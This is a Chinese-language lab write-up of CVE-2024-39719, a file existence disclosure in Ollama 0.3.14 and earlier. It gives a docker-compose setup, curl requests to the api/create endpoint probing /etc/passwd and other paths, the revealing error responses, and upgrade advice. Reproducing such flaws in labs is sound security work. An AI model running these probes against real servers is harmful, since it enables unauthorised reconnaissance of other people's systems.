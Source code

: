 # Ollama 文件存在性泄露漏洞 CVE-2024-39719

## 漏洞描述

 Ollama 0.3.14 及之前的版本中，攻击者可以通过 `api/create` 端点触发文件存在性泄露（File Existence Disclosure）漏洞。当调用 `CreateModel` 并传递一个不存在的路径参数时，服务器会直接返回 `"File does not exist"`（文件不存在）的错误消息。该漏洞允许攻击者探测服务器上特定文件是否存在，进而造成信息泄露。

参考链接：

- https://github.com/advisories/GHSA-cpxh-jwhh-m496
- https://oligosecurity.webflow.io/blog/more-models-more-probllms
- https://github.com/ollama/ollama/releases/tag/v0.1.47
- https://github.com/ollama/ollama/blob/cb42e607c5cf4d439ad4d5a93ed13c7d6a09fc34/server/images.go#L349

## 漏洞影响

```
Ollama ≤ 0.3.14
```

## 环境搭建

docker-compose.yml

```
services:
  ollama:
    image: ollama/ollama:0.3.14
    container_name: ollama
    volumes:
      - ollama:/root/.ollama
    ports:
      - "11434:11434"

volumes:
  ollama:
```

执行如下命令启动 Ollama 0.3.14 服务:

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:11434/`，此时 Ollma 0.3.14 已经成功运行。

![](images/Ollama%20文件存在性泄露漏洞%20CVE-2024-39719/image-20250305134942768.png)

## 漏洞复现

使用 `curl` 命令向本地服务器发送请求，创建一个名为 `file-leak-existence` 的文件。

文件不存在时，将报错 `no such file or directory`：

```
curl "http://your-ip:11434/api/create" -d '{"name": "file-leak-existence","path": "/tmp/non-existing"}'
-----
{"error":"error reading modelfile: open /tmp/non-existing: no such file or directory"}
```

![](images/Ollama%20文件存在性泄露漏洞%20CVE-2024-39719/image-20250305135226934.png)

文件存在时，将报错 `command must be one of "from", "license", "template", "system", "adapter", "parameter", or "message"`：

```
curl "http://your-ip:11434/api/create" -d '{"name": "file-leak-existence","path": "/etc/passwd"}'
-----
{"error":"command must be one of \"from\", \"license\", \"template\", \"system\", \"adapter\", \"parameter\", or \"message\""}% e
```

![](images/Ollama%20文件存在性泄露漏洞%20CVE-2024-39719/image-20250305135433566.png)

传入目录而非文件路径时候，将报错 `{"error":"read /xxx: is a directory"}`：

```
curl "http://your-ip:11434/api/create" -d '{"name": "file-leak-existence","path": "/etc"}'
-----
{"error":"read /etc: is a directory"}%  
```

![](images/Ollama%20文件存在性泄露漏洞%20CVE-2024-39719/image-20250305135606639.png)

## 漏洞修复

- 升级至最新版本 https://github.com/ollama/ollama
